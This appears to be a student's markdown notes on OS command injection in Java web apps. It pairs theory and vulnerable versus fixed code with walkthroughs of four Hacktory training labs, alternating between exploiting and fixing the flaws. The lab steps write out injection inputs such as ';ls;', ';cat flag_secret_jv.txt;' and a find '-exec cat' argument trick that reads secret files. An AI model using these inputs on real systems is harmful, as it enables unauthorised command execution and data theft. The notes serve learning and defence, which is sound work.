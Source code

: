 # Code and command injections.md
## Theory
### Command Injection
#### Vulnerability:Command injection is a type of vulnerability that enables the adversary to execute arbitrary OS commands on the server through susceptible applications ,These attacks are possible usually because of insufficient input validation.
- How it works? :
+ Let's suppose we have the vuln.com website with the following code:
- `Runtime rt = Runtime.getRuntime();
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping " +req.getParameter("ip")});`
+ he script calls the ping utility that sends requests to an IP address that is passed to the script as an argument. Here's an example of a call for the script with an argument `ip=8.8.8.8`

`vuln.com/ping?ip=8.8.8.8`
The result:

`sh -c ping 8.8.8.8`
+However, if the user passes the 123;whoami value as an argument, the formed command will look like this:

`sh -c ping 123;whoami`
##### How to find it?:
- The results of an injection may not be present in the server response. There are three basic situations:
- The result is in the server response.
- The result is not in the response, but we can tell if the injection was executed using indirect evidence right away.
- The result is not in the response, but we can tell if the injection was executed using indirect evidence after some time.

### Blind injection:
The result of command execution is not always displayed on the page (blind injection). In this case, there are only indirect signs a command was executed (sleep, request to (our) external resource, etc.). One way or another, sleep, ping, and other commands that would take time for their execution, which can be traced.

- Out-of-band : In some cases, we cannot use response delay to see if our command was executed. Thus, you have to make the vulnerable server perform a certain action. For example, make a DNS request with a specific host or initiate a request from the vulnerable

### Search in the source code
- |PHP	|system, shell_exec, exec, proc_open, popen, eval, passthru|
- |NodeJS	|spawn, forc, exec, eval|
- |Java	|ProcessBuilder, Runtime.exec|
- |C#	|ProcessStartInfo,ParameterizedThreadStart,Process.Start,Exec|
## Fixes and prevention
List of characters to be filtered:
`< > & * ‘ | = ? ; [ ] ^ ~ ! . ” % @ / \ : + , '`
#### An example:
- `Runtime rt = Runtime.getRuntime();`
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping " + req.getParameter("ip")});`
#### Bad example:
-`String command="ping "+req.getParameter("ip");`
-`ProcessBuilder b = new ProcessBuilder(command);`
#### Good example:
`ProcessBuilder b = new ProcessBuilder("ping",req.getParameter("ip"));`


## Lab 1:RouterV1
We are going to work with a router configuration web interface. We will find command injection vulnerabilities and get secret information.
- Run the machine
- open the browoser and put the adress http://www.hacktory.lab
- go for the admin pannel
- in the hostane field ping
- The output is ping -c 1 ping
- now in the field we should type ping -c 1 127.0.0.1
- in the hostbname field put ;ls;
- the output will be like bindemo-baseetcflag_secret_jv.txtliblicense-eplv10-.........
- we can see the flag_secret_jv.txt
- now we should use this command ;cat flag_secret_jv.txt;
- we can see in the output the flag // java_rce_attack
- close the machien
## Lab 2:RouterV1 
Нам предстоит исправить уязвимости в веб-интерфейсе конфигурации роутера, которые мы обнаружили ранее.
- Open the machine
- Go to Code editor
- the first thing is checking the Admin.java
- Direclty without thinking twice  we can see that that problem in the
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping -c 1 " + req.getParameter("cmd")});`

why? because we are using sh-c this will open the shell direclty and we are passing the user input direclty into the shell
lets fix this
    `String cmdParam = req.getParameter("cmd");
    // Basic input validation
    if (cmdParam == null || cmdParam.contains(";") || cmdParam.contains("&") || cmdParam.contains("|")) {
        req.setAttribute("output", "Invalid input detected.");
        this.doGet(req, resp);
        return;
    }`

- after this i used the hint to know where the 2 problem 
`processBuilder.command("bash", "-c", "nslookup " + request.getAttribute("cmd"));`
- dont use the bash-c lets use safe argument separation `processBuilder.command("nslookup", (String)request.getAttribute("cmd"));`

- we can use input validation as we did in the admin java its good
- after correcting use the deploy adn the flag will be shown in the output of the console 
//Your flag is: JAVA_RCE_DEFENDER

## Lab 3:FFF:
We are going to work with the FFF (fast file finder) website and try to inject a command through its search bar. We will need the knowledge about some command arguments.

- Start you machine 
- Go to http://www.hacktory.lab
- try find -help
- the question is Which argument of the find command could be potentially used by an attacker ?
- the answer is -exec
- try to enter file -or -exec whoami ; -quit
- the output is root
- try file -or -exec ls ; -quit.
- we can see the list of the files
- and we can see a file called flag.txt
- we wanna see the content of this i am thinking in the command of cat
- `;cat flag.txt;` i didnt get any result 
- try this command `file -or -exec cat flag.txt ; -quit`
- the flag  ` **java_rce_find_escaper**`
- close your machine
- Good luck from kader
    
## Lab 4:FFF:
Now it's time to fix the vulnerabilities of FFF (fast file finder)!
- open your machine
- open code editor
- locate the main.jave source code
- analyse it
- we can see direclty the mistake in
- `Process proc = Runtime.getRuntime().exec("find /sources/ -name " + filename);`
- this allow the command ;cat;
- fix the code
package org.hacktory;
`import javax.servlet.RequestDispatcher;`
`import javax.servlet.ServletException;`
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
public class Main extends HttpServlet {
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        String filename = req.getParameter("filename");
        StringBuilder output = new StringBuilder();

        // Basic input validation: only allow safe characters
        if (filename == null || !filename.matches("^[a-zA-Z0-9._-]+$")) {
            output.append("Invalid filename.");
        } else {
            try {
                ProcessBuilder pb = new ProcessBuilder("find", "/sources/", "-name", filename);
                Process proc = pb.start();

                BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                BufferedReader stdError = new BufferedReader(new InputStreamReader(proc.getErrorStream()));
                String s;

                while ((s = stdInput.readLine()) != null) {
                    output.append(s).append("<br/>");
                }

                while ((s = stdError.readLine()) != null) {
                    output.append(s).append("<br/>");
                }
            } catch (IOException e) {
                output.append("Error running find: ").append(e.getMessage());
            }
        }

        req.setAttribute("output", output.toString());
        this.doGet(req, resp);
    }
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        RequestDispatcher requestDispatcher = req.getRequestDispatcher("/WEB-INF/view/index.jsp");
        requestDispatcher.forward(req, resp);
    }
}
- deploy your code
- the flag is JAVA_RCE_ARGUMENT_SOLVER




